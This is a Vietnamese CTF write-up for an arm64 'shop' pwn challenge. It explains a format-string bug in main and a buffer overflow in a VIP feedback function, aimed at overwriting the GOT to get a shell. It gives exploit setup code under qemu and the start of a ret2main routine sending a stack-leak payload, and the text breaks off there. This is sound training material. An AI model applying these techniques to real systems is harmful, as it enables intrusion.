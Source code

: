 ```c
  puts("Hmmm, I'll notice that and thanks for ur report");
  return v2 ^ _stack_chk_guard;
}
```
Flow của chương trình thì khá đơn giản nên mình chỉ đưa lên những hàm mình sẽ tập trung khai thác ở đó, thì như ta thấy ở hàm `main` có 2 lỗi đó là `Format String`. Và target của mình là sử dụng `Format String` để overwrite `GOT` để tạo shell, và nhiệm vụ của ta để thực hiện việc lại hàm `main` một lần nữa thì lúc này ta sẽ để ý vào hàm `feedback` khi `is_VIP` bằng `1` thì ta sẽ được lỗi `buffer overflow` ở hàm này.

Vì đây là một challenge `arm64` nên ta cần phải chuẩn bị một số bước trước khi chạy và khai thác nó (ta có thể đọc ở [đây](https://ropemporium.com/guide.html)). Và mình cũng cơ cấu lại phần `init` của file exploit của mình là như thế này:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'info'
exe = context.binary = ELF('./shop_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return process(["qemu-aarch64","-g","5000", "-L", "/usr/arm-linux-gnueabi/", exe.path])
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process(["qemu-aarch64", "-L", "/usr/arm-linux-gnueabi/", exe.path] + argv, *a, **kw)

p = start()
```

Bằng cách này khi chạy exploit của ta sẽ mở một server chạy ở cổng `5000` và việc của ta cần làm là xử dụng `gdb-multiarch` và `target remote` vào đó rồi debug động như bình thường. Và việc còn lại là exploit:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'info'
exe = context.binary = ELF('./shop_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return process(["qemu-aarch64","-g","5000", "-L", "/usr/arm-linux-gnueabi/", exe.path])
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process(["qemu-aarch64", "-L", "/usr/arm-linux-gnueabi/", exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def ret2main():

  sa(b'> ', b'%9$p|%17$p')
  ru(b'hi ')
```
